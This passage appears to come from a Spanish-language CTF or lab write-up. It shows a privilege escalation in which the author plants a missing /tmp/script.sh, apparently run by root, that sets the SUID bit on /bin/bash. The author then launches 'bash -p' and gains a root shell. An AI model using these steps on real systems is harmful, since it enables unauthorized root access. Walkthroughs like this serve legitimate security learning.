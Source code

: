 ```
/opt/update.sh
/tmp/script.sh
```
pues... me voy a /tmp y no existe el script, voy a hacer uno que me convenga jeje:
 ```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > script.sh
```
doy permisos de ejecucion:
```bash
chmod +x script.sh
```

redoble de tambor:
```
ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
ya tiene el bit SUID así pues:
```bash
/bin/bash -p
```
ya somos root.




